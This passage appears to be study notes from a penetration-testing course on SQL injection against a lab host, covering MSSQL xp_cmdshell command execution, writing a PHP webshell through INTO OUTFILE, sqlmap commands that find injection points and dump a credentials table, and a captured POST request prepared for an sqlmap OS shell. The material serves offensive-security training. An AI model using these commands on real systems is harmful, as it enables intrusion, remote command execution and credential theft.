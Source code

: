 ```MSSQL
RECONFIGURE;
```
Changes applied 

#### Executing Commands via xp_cmdshell
```MSSQL
EXECUTE xp_cmdshell 'whoami';
```

#### Write a WebShell To Disk via INTO OUTFILE directive
![[select into out.png]]
The PHP _system_ function will parse any statement included in the _cmd_ parameter coming from the client HTTP REQUEST, thus acting like a web-interactive command shell.

#### Writing the WebShell to Disk
![[Pasted image 20230521122943.png]]
The above input is written into the SQLi vulnerable field. Fortunately, this error is related to the incorrect return type, and should not impact writing the webshell on disk.

#### Accessing the Webshell
![[Pasted image 20230521123008.png]]

### 10.3.2 Automating the Attack

#### Running sqlmap to quickly find SQL injection points
```Shell
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
```
We will set the URL we want to scan with **-u** and specify the parameter to test using **-p**. We submitted the entire URL after the _-u_ specifier together with the _?user_ parameter set to a dummy value.

#### Running sqlmap to Dump Users Credentials Table
```Shell
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
```

#### (OS-Shell) Intercepting the POST request with Burp
```
POST /search.php HTTP/1.1
Host: 192.168.50.19
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://192.168.50.19
Connection: close
Referer: http://192.168.50.19/search.php
Cookie: PHPSESSID=vchu1sfs34oosl52l7pb1kag7d
Upgrade-Insecure-Requests: 1

item=test
```
Save this as a .txt file (in next command this is post.txt)
